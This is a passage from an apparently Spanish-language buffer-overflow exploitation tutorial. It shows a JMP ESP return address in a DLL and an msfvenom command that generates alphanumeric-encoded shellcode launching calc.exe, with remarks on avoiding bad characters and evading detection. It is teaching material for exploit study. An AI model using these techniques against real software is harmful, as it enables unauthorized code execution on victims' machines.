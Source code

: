    _Resultado: `0x6e595ddb` (JMP ESP en R.dll - dirección en little-endian: `\xdb\x5d\x59\x6e`)_

### **PASO 5 - Generar una shellcode** <a id="paso-5---generar-una-shellcode"></a>
La shellcode debe ser compatible con el entorno y evadir detección mientras ejecuta nuestra carga útil, en este caso, pretendemos la elaboración de la shellcode bajo un criterio simple, la ejecución de la calculadora nativa del sistema.

**PASO A PASO**
1. **Generación con MSFVenom:**
   `msfvenom -a x86 — platform Windows -p windows/exec cmd=calc.exe -e x86/alpha_upper  -f c`
   
   ![Msfvenom-GeneratingShellcode](images/Msfvenom-GeneratingShellcode.png)
   
   _Utilizamos el encoder `alpha_upper` para generar shellcode que contenga solo caracteres alfanuméricos en mayúsculas, evitando así problemas con caracteres especiales que podrían truncar nuestro payload._
